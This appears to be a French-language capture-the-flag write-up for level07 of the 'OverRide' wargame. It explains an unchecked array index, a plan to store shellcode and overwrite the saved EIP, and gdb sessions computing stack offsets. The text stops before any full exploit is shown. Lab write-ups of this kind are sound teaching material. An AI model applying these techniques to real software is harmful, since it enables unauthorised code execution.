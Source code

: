 ## Level07

On observe que le binaire nous permet de stocker un nombre a un certain index, et d'afficher le contenu du tableau pour un index donné.

Lorsque qu'on entre un index qui est divisible par 3, nous obtenons un message d'erreur:

![image](https://user-images.githubusercontent.com/29956389/95601346-9bf4b100-0a53-11eb-8b10-d557af6084f4.png)

Le binaire éfface les argument passé, ainsi que l'environement, mais nous laisse avec une stack executable.

```
while (av[i] != 0)
{
	memset(av[i], 0, strlen(av[i]));
	i++;
}
i = 0;
while (env[i] != 0)
{
	memset(env[i], 0, strlen(env[i]));
	i++;
}
```

Une fois le code désassemblé, on observe que le tableau qui stocke les nombres a 100 index: `char	database[100];`, mais aucune vérification est faite sur l'index que nous donnons, nous pouvons donc en theorie écrire ou nous voulons.

On peut donc stocker notre shellcode directement dans le tableau, et réécrire l'eip pour qu'il pointe sur notre shellcode.

Avec la structure du code, on tente donc de trouver l'eip stocké lors de l'appel a main:

```
level07@OverRide:~$ gdb -q ./level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b *main
Breakpoint 1 at 0x8048723
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048723 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd710
 Saved registers:
  eip at 0xffffd70c   <--- EIP
```

Maintenant il faut trouver l'adresse du tableau pour en dériver l'index que nous utiliserons pour réécrire l'eip:

Pour cela on peut directement afficher l'adresse `[esp+0x24]` a `main+110`, le problème est que gdb modifie les variables d'environement, ce qui entraine une variation dans les adresses de la stack. On aura donc bien du mal a trouver l'adresse lorsque nous somme pas dans GDB.

La solution ici, est d'utiliser la fonction `read_number` pour trouver la différence relative entre l'adresse effective du tableau, et l'adresse du tableau passé en argument a la fonction `read_number`: Cette différence ne changera pas lors d'ajout ou de retrait de variable d'environement.

Lors de l'appel a `read_number`, le tableau sera stocké a `ebp+0x8`: EBP est le debut de notre stackframe, `ebp+0x4` est l'eip enregistré, et `ebp+0x8` est le tableau logiquement.

```
(gdb) b *read_number+6
(gdb) r
[...]
(gdb) x $ebp+0x8
0xffffd520:     0xffffd544
```

`0xffffd520` est l'adresse pour l'argument de la fonction, et `0xffffd544` est l'adresse réélle du tableau.

```
(gdb) p 0xffffd544 - 0xffffd520
$2 = 36
(gdb) p 36 / 4  <-- 4 parce que tableau de int
$3 = 9
```

On obtiens l'index 9. N'oublions pas que la stack grandis vers des addresse plus petites, l'index `9` est en fait `-9`, ce qui fera wrapper l'int a `4294956356` soit `0xFFFFD544`: notre tableau.






